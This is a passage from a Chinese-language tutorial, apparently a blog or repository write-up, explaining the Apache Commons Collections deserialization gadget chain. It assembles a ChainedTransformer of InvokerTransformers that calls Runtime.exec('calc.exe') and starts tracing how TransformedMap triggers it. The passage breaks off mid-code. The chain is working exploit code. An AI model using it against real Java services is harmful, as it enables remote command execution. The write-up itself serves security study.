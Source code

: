 4. 第二步，要通过反射调用方法的话，就需要在创建 `InvokerTransformer(final String methodName, final Class<?>[] paramTypes, final Object[] args)` 时，指定方法名，方法参数的类型和具体参数内容。

    ```java
    // getMethod 一定要
    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
    // 通过反射创建了反射的方法，因此还得通过反射的 invoke() 来执行
    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    ```

5. 最终，将这些转换器用 `ChainedTransformer` 进行整合，得到**最终**的恶意 `Transformer` 链如下：

    ```java
    Transformer[] transformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
            new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
            new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
    };
    Transformer transformedChain = new ChainedTransformer(transformers);
    ```

6. 到此，成功构造了一个 `Transformer` 类，他的 `transform` 可以执行命令，也就是 sink。但是这个 sink 要怎么触发呢？因为他是 `Transformer`，那么就要回到 `TransformedMap` 了。

#### 3.7.2 chain

1. 回到 `TransformedMap` ，在 3.1 中提到，该对象的创建要求传入 key 和 value 的 `Transformer` 转换器，如果创建时我们传入包含恶意代码的 `InvokerTransformer`，此时如果 `TransformedMap` 对象**调用了某些方法，使得其键或值的 `Transformer` 的 `transform()` 方法被执行**，那么就会触发 sink ，从而执行恶意代码。

2. 那么问题又来了，**“哪些方法会让 `TransformedMap` 调用其键或值的 `Transformer` 的 `transform()` 方法？”**。
    再次回到 `TransformedMap` 的底层源码，找到调用 key/value 的转换器的方法。
    首先是最底层的三个方法：

    ```java
    /**
     * Override to transform the value when using <code>setValue</code>.
     *
     * @param value  the value to transform
     * @return the transformed value
     * @since 3.1
     */
    @Override
    protected V checkSetValue(final V value) {
        return valueTransformer.transform(value);
    }
    /**
     * Transforms a key.
     * <p>
     * The transformer itself may throw an exception if necessary.
     *
     * @param object  the object to transform
     * @return the transformed object
     */
    protected K transformKey(final K object) {
        if (keyTransformer == null) {
            return object;
        }
        return keyTransformer.transform(object);
    }
    /**